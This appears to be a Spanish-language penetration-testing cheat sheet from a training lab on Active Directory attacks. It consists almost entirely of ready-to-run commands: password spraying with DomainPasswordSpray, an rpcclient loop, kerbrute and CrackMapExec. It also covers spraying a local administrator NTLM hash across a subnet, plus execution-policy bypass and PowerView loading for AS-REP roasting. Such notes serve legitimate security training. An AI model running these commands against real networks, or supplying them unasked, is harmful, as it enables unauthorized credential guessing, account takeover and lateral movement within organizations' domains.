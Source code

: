 **Realizar Ataque Password Spraying**
**DomainPasswordSpray Module**
```powershell
# Importamos el modulo
. .\DomainPasswordSpray.ps1

# Ataque PasswordSpray (en este caso el diccionario de usuarios esta en el mismo directorio)
Invoke-DomainPasswordSpray -UserList .\users.txt -Password 123456 -Verbose
# Filtrando Solamente por positivos, no ponemos user list al ser local
Invoke-DomainPasswordSpray -Password 123456 -Verbose -OutFile spray_success -ErrorAction SilentlyContinue
```
----
##### PASSWORD SPRAYING FROM LINUX
**Bash One-Liner**
```bash
for u in $(cat valid_users.txt);do rpcclient -U "$u%Welcome1" -c "getusername;quit" 172.16.5.5 | grep Authority; done
```

**Kerbrute**
```bash
kerbrute passwordspray -d inlanefreight.local --dc 172.16.5.5 valid_users.txt  Welcome1
```

**CrackMapExec Password Spraying**
```bash
# Password Spraying, lista de usuarios, contraseña encontrada o realizada
crackmapexec smb 10.10.10.100 -u users.txt -p 'GPPMyPasswordSecret202$'
# Filtrando por positivos
crackmapexec smb 10.10.10.100 -u users.txt -p 'GPPMyPasswordSecret202$' | grep +

# Validar Credenciales
sudo crackmapexec smb 172.16.5.5 -u avazquez -p Password123
```

**Local Administrator Password Reuse**
Si obtenemos acceso administrativo o de maximos privilegios y tenemos la contraseña en texto plano o el hash **NTLM** de la contraseña, podemos intentar utilizarlos en multiples hosts de la red.
Por ejemplo si encontramos un administrador local con una contraseña como `$desktop%@admin123` podemos cambiar desktop por `server`, `$server%@admin123`.
```bash
# Local Admin Spraying (Podria darse positivo en varios DCs de la propia subred)
sudo crackmapexec smb --local-auth 172.16.5.0/23 -u administrator -H 88ad09182de639ccc6579eb0849751cf | grep +
```
### PRIVESC
#### [[AS-REP ROASTING]]
**Importar Modulo Powerview**
```powershell
# Dar permisos de bypass
powershell -ep bypass

# Importamos el modulo
. .\PowerView.ps1
```
